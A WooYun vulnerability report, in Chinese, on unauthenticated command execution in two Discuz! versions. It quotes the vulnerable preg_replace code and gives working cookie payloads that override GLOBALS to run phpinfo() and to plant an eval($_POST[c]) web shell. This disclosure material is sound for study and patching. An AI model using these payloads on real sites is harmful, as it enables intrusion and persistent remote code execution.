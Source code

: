 ## WooYun-2014-80723：Discuz!某兩個版本前台產品命令執行（無需登錄）

## **詳細說明**

include/discuzcode.func.php

```php
function discuzcode($message, $smileyoff, $bbcodeoff, $htmlon = 0, $allowsmilies = 1, $allowbbcode = 1, $allowimgcode = 1, $allowhtml = 0, $jammer = 0, $parsetype = '0', $authorid = '0', $allowmediacode = '0', $pid = 0) {

    global $discuzcodes, $credits, $tid, $discuz_uid, $highlight, $maxsmilies, $db, $tablepre, $hideattach, $allowattachurl;

    if($parsetype != 1 && !$bbcodeoff && $allowbbcode && (strpos($message, '[/code]') || strpos($message, '[/CODE]')) !== FALSE) {

        $message = preg_replace("/\s?\[code\](.+?)\[\/code\]\s?/ies", "codedisp('\\1')", $message);

    }

    $msglower = strtolower($message);

    //$htmlon = $htmlon && $allowhtml ? 1 : 0;

    if(!$htmlon) {

        $message = $jammer ? preg_replace("/\r\n|\n|\r/e", "jammer()", dhtmlspecialchars($message)) : dhtmlspecialchars($message);

    }

    if(!$smileyoff && $allowsmilies && !empty($GLOBALS['_DCACHE']['smilies']) && is_array($GLOBALS['_DCACHE']['smilies'])) {

        if(!$discuzcodes['smiliesreplaced']) {

            foreach($GLOBALS['_DCACHE']['smilies']['replacearray'] AS $key => $smiley) {

                $GLOBALS['_DCACHE']['smilies']['replacearray'][$key] = '<img src="images/smilies/'.$GLOBALS['_DCACHE']['smileytypes'][$GLOBALS['_DCACHE']['smilies']['typearray'][$key]]['directory'].'/'.$smiley.'" smilieid="'.$key.'" border="0" alt="" />';

            }

            $discuzcodes['smiliesreplaced'] = 1;

        }

        $message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);

    }
```

注意到 119 行：
```php
$message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);
```
因此，直接cookie中帶
```php
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```
即可執行。
請求中Cookie帶
```php
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;
```
即一句話木馬，此後門漏洞十分隱蔽，不容易發現。
隨便 google 驗證了一下，發現還是有大量中招的。

## **漏洞證明**

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.36/3.36-1.jpg)

---

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.36/3.36-2.jpg)
